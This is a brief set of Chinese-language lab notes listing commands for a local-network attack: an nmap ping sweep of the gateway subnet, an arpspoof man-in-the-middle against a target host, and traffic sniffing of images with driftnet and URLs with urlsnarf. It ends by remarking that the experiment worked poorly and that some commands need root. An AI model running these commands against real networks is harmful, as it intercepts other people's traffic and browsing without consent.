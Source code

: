 局域网主机扫描：
nmap -sP [网关地址]/24


arpspoof中间人攻击
arpspoof -i [使用的网卡] -r [网关ip] -t [目标主机]

图片嗅探
driftnet -i [网卡名]

网址嗅探
urlsnarf -i [网卡名]


实验效果不佳。注意有些命令需要sudo和root帐号
